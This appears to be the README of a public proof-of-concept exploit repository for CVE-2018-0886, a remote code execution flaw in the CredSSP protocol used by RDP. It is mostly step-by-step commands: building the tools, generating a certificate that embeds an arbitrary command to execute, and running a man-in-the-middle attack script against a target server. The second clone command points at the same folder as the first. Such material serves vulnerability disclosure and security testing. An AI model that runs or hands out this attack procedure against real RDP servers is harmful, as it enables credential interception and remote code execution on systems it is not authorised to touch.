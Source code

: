 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the file.. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git rdpy
$ credssp/install/install.sh 
$ python rdpy/setup.py install
```

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain. Then: 


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -c exploitc.pem -k exploitk.pem CMD 
```

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```
